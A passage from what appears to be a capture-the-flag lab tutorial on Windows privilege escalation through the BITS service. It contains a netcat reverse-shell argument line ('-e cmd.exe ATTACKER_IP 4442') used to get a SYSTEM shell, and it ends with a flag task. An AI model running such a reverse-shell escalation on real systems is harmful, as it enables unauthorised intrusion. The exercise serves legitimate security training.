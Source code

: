 ![task6-roguewin](./images/task6-roguewin.png)

**Note**: The exploit may take up to 2 minutes to work, so your browser may appear as unresponsive for a bit. This happens if you run the exploit multiple times as it must wait for the BITS service to stop before starting it again. The BITS service will stop automatically after 2 minutes of starting.

The `-p` parameter specifies the executable to be run by the exploit, which is `nc64.exe` in this case. The `-a` parameter is used to pass arguments to the executable. Since we want nc64 to establish a reverse shell against our attacker machine, the arguments to pass to netcat will be `-e cmd.exe ATTACKER_IP 4442`.

If all was correctly set up, you should expect a shell with SYSTEM privileges:

![task6-terminal](./images/task6-terminal.png)

Using any of the three methods discussed in this task, gain access to the Administrator's desktop and collect the flag. Don't forget to input the flag at the end of this task.

### Answer the questions below

* Get the flag on the Administrator's desktop.
